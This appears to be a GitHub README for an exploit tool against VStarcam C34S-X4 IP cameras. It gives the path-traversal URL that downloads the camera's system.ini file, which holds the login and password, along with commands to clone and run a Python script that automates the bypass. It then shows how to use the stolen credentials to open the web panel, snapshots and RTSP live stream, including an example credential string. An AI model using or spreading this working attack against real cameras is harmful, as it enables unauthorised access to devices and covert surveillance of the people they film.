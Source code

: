## Authentication Treversal
The Vulnerability of GoAhead Service on VStarcam C34S-X4 that allows you to download system.ini configuration file and get login and password.
--
## !WARNING!
The author is trying to draw the attention of the developers to the problem and I am not responsible for the harm caused to you or by you.
--


# IMPLEMENTATION

Еo perform the vulnerability, you must log in to the camera interface without authorization. Then, after the forward slash, you must add %5C%5Csystem.ini
and the file will start downloading. When you open the file, you will see your username and password written together. I have already written a small program
that interacts with the ONVIF protocol and receives images from the camera and a link to the RTSP stream.

# STEPS
1) To use it you have to install [python3](https://www.python.org)
[onvif_zeep](https://github.com/FalkTannhaeuser/python-onvif-zeep) and [requests](https://pypi.org/project/requests/)
```sh
git clone https://github.com/Retr0-code/auth-treversal
pip3 install -r requirements.txt
chmod +x GetInfo.py
python3 GetInfo.py --help
```
<br>
2) You can go to you browser and enter this link <b>http://ip:port/%5C%5Csystem.ini</b>
(You must change ip to address of camera and port to port that web-server run on).
<br>

![MozilaV.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/MozilaV.png)

<br>
Or you can use
<br>

```sh
python3 GetInfo.py --host <camera ip> --port <web-server port>
```

<br>
and than read as text downloaded file.
<br>

![PythonLogPass.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/PythonLogPass.png)

<br>
3) Now you can log in to web-panel.
<br>

![webPanel.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/webPanel.png)

Or you can use 
<br>

```sh
python3 GetInfo.py --onvif 10080 --host 192.168.0.58 --port 8888
```

<br>
and you get links to snapshots and RTSP stream link.
To get stream you have to specify login and password like this: <b>rtsp://username:password@ip:port/path/to/stream</b> In my case link looks like
this rtsp://admin:888888@192.168.0.58:554/udp/av0_1
<br>

![OnvifShow.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/OnvifShow.png)

